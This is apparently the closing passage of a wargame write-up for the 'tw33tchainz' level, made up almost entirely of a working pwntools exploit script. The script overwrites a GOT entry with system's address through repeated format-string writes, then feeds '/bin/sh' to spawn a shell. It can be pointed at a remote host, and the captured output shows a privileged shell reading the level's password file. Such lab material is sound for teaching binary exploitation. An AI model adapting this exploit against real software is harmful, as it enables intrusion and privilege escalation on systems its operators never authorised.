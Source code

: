   # memcmp@GOT @ 0x804d02c
  g = lambda x: str(int(x-5))
  r.sendline("B"+p32(0x804d02c)+"%"+g(system[3])+"x%8$n"+"BB") # writes 0x90 to 0x804d02c
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02d)+"%"+g(system[2])+"x%8$n"+"BBB") # writes 0x31 to 0x804d02d
  r.sendline("")
  r.recvuntil("Choice:")
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02e)+"%"+g(system[1])+"x%8$n"+"BB") # writes 0xe6 to 0x804d02e
  r.sendline("")
  r.recvuntil("Choice:") 
  r.sendline("1")
  r.recvuntil(":")
  r.sendline("B"+p32(0x804d02f)+"%"+g(system[0])+"x%8$n"+"BB") # writes 0xb7 to 0x804d02f
  r.sendline("")
  log.success("memcpy@GOT overwritten!")
  r.recvuntil("Choice: ")
  r.sendline("3")       # authenticate as admin
  r.recvuntil(":")
  r.sendline("/bin/sh") # admin pass
  
  r.interactive()
if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/project1/tw33tchainz'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}


{% highlight bash %}
project1@warzone:/tmp/project1$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/project1/tw33tchainz': Done
[21658]
[*] Paused (press any to continue)
[+] Admin password retrieved
[+] Authenticated as admin!
[+] memcpy@GOT overwritten!
[*] Switching to interactive mode
 $ id
uid=1036(project1) gid=1037(project1) euid=1037(project1_priv) groups=1038(project1_priv),1001(gameuser),1037(project1)
$ cat /home/project1_priv/.pass
m0_tw33ts_m0_ch4inz_n0_m0n3y
$ 
{% endhighlight %}
